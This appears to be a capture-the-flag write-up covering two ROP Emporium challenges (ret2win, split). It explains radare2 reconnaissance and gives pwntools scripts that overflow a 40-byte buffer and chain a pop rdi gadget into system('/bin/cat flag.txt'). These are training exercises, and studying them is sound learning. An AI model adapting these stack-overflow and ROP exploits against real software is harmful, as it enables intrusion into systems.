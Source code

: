 # ROP EMPORIUM <a name="ropemp"></a>

***

| Challenge          | Walkthrough                                                                                     |
| ------------       | --------                                                                                        |
| [Ret2Win](#ret2win)| [pdf](https://github.com/Ordered-Chaos/Pwnfolio/blob/master/ROP_Emporium/Writeups/Ret2win64.pdf)|
| [Split](#split)    | [pdf](https://github.com/Ordered-Chaos/Pwnfolio/blob/master/ROP_Emporium/Writeups/Split64.pdf)  |                                                                              
| CallMe             |                                                                                                 |
| Write4             |                                                                                                 |

***

## RET2WIN 64 bit<a name="ret2win"></a>

> ### 1. Problem
>> In this challenge, there is a function called ret2win located somewhere
>> in the binary which can be used to cat the flag.txt file. 

> ### 2. Solution
>> The goal here is to:
>>
>> - [ ] Find offset of the ret2win function
>>> I used the `> afl` command in radare2 to list the functions with their offsets.
>>> This showed me that the ret2win function was located at address 0x00400756.
>>>
>> - [ ] Find out the buffer length
>>> In the ROP Emporium challenges all of the buffers are 40 bytes long.
>>>
>> - [ ] Overflow the buffer and overwrite `$rsp` with the ret2win address offset
>>> I used a pwntools script in order to execute the exploit.

~~~python

#!/usr/bin/env python

from pwn import *

elf = context.binary = ELF('ret2win')
context.log_level = 'debug'

padding = cyclic(40)
ret2win = p64(0x00400756)

payload = padding
payload += ret2win

io = process(elf.path)
io.sendline(payload)
io.wait_for_close()
io.recvall()

~~~

**FLAG:**  *ROPE{a_placeholder_32byte_flag!}* 

***

## SPLIT 64 bit<a name="split"></a>

> ### 1. Problem
>> In the split challenge, there exists a function that calls system along with
>> the string `/bin/cat flag.txt` which is all that is needed to get the flag. The 
>> twist is that they are split apart and need to be brought together. The goal here is to:

> ### 2. Solution
>> The goal here is to:
>>
>> - [ ] Find the address offset of the system call
>>> Here I used the `> afl` command in radare2 to list the functions. From there I navigated to 
>>> the *usefulFunction* using `>  usefulFunction` followed by a `> pdf` command to disassemble
>>> the function. This gave me the address of the system call.
>>>
>> - [ ] Find the address offset of the `/bin/cat flag.txt` string
>>> I used the `> iz` command in radare2 to print a list of strings in the binary. From here I 
>>> was able to find the address of the `/bin/cat flag.txt` string.
>>>
>> - [ ] Find a ROP gadget that can pop our string into `$rdi`
>>> The `> /R pop rdi;` command in radare2 searches through the binary and lists all ROP gadgets
>>> that have the `pop $rdi` instruction. This gave me the address to the gadget.
>>>
>> - [ ] Overflow the buffer, overwrite `$rsp` and execute the exploit
>>> As always, I created a pwntools script in order to execute the exploit.

~~~python

#!/usr/bin/env python

from pwn import *

elf = context.binary = ELF('split')  # setting up the envronment
context.log_level = 'debug'       

usefulstring = p64(0x601060)         # 'cat flag.txt' string
systemaddr = p64(0x40074b)           # call to system in usefulFunction
rop = p64(0x4007c3)                  # pop rdi; ret;
padding = cyclic(40)

payload = padding                    # junk to fill up buffer
payload += rop                       # pops '/bin/cat flag.txt' into rdi
payload += usefulstring              # string to be as the argument
payload += systemaddr                # call to system in useful function

io = process(elf.path)
io.sendline(payload)                 # sends payload
io.wait_for_close()                  
flag = io.recvall()
print(flag)

~~~

**FLAG:**  *ROPE{a_placeholder_32byte_flag!}* 

***
